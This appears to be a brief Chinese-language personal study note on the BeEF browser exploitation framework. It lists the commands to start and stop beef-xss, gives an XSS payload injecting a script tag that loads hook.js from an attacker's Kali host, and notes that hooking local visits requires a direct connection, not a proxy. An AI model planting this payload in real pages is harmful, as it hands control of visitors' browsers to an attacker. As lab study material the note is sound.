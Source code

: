 +++
title = 'beef xss'
date = 2024-09-17T23:47:23+08:00
draft = false
categories = ['CS', 'sec']
+++


## 命令

```sh
# start
beef-xss

beef-xss-stop
```

---
## xss注入

```html
<script src="http://<kali-ip>:3000/hook.js"></script>
```

---
# 问题记录
---
## beef 抓不到本地访问记录

==要直连，不能用代理！！！==

![](../../../../img/Pasted%20image%2020240917234606.png)

> 为什么不能用代理？
> 
> gpt：代理服务器本身不在我的内网中，无法解析和访问内部地址
